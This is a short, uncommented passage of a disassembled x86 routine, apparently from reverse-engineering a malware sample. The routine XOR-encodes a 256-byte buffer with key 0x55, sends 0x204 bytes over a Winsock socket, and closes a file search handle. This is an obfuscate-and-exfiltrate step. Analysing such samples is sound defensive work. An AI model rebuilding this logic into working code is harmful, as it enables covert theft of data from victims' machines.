                             LAB_00401ff3                                    XREF[1]:     00401d2b(j)  
        00401ff3 c7 84 24        MOV        dword ptr [ESP + 0x370],0x0
                 70 03 00 
                 00 00 00 
        00401ffe 33 c0           XOR        EAX,EAX
                             LAB_00402000                                    XREF[1]:     00402017(j)  
        00402000 8a 8c 04        MOV        CL,byte ptr [ESP + EAX*0x1 + 0x170]
                 70 01 00 00
        00402007 80 f1 55        XOR        CL,0x55
        0040200a 88 8c 04        MOV        byte ptr [ESP + EAX*0x1 + 0x170],CL
                 70 01 00 00
        00402011 40              INC        EAX
        00402012 3d 00 01        CMP        EAX,0x100
                 00 00
        00402017 7c e7           JL         LAB_00402000
        00402019 8b 0d 80        MOV        ECX,dword ptr [DAT_0040aa80]
                 aa 40 00
        0040201f 6a 00           PUSH       0x0
        00402021 8d 84 24        LEA        EAX,[ESP + 0x174]
                 74 01 00 00
        00402028 68 04 02        PUSH       0x204
                 00 00
        0040202d 50              PUSH       EAX
        0040202e 51              PUSH       ECX
        0040202f ff d5           CALL       EBP=>WS2_32.DLL::Ordinal_19
        00402031 53              PUSH       EBX
        00402032 ff 15 1c        CALL       dword ptr [->KERNEL32.DLL::FindClose]            = 000098b4
                 90 40 00
        00402038 5e              POP        ESI
        00402039 5d              POP        EBP
        0040203a 5f              POP        EDI
        0040203b 5b              POP        EBX
        0040203c 81 c4 44        ADD        ESP,0x644
                 06 00 00
        00402042 c3              RET
        00402043 90              ??         90h
        00402044 90              ??         90h
        00402045 90              ??         90h
        00402046 90              ??         90h
        00402047 90              ??         90h
        00402048 90              ??         90h
        00402049 90              ??         90h
        0040204a 90              ??         90h
        0040204b 90              ??         90h
        0040204c 90              ??         90h
        0040204d 90              ??         90h
        0040204e 90              ??         90h
        0040204f 90              ??         90h

```
